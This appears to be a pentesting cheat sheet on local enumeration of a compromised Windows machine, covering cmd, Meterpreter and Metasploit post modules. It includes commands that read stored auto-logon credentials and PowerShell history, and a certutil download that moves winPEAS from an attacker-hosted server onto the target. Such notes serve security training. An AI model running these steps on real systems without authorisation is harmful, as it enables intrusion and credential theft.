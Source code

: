 # Windows - Local Enumeration

### Manual Windows Local enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic product get name,version,vendor # all software with version in the machine

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

{% code title="Cmd" %}
```bash
whoami
whoami /all
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME # view users in the group
net localgroup administrators # view user in administrators's group
```
{% endcode %}

{% code title="Meterpreter" %}
```bash
getuid
getprivs
```
{% endcode %}

{% code title="msfconsole" %}
```bash
use post/windows/gather/enum_logged_on_users
set sessions N
run
```
{% endcode %}

### Network information

{% code title="Cmd" %}
```bash
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```
{% endcode %}

### Processes & Services

{% code title="Meterpreter session" %}
```bash

ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```
{% endcode %}

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



### Auto Logon credentials

{% code title="Cmd" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
{% endcode %}



## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
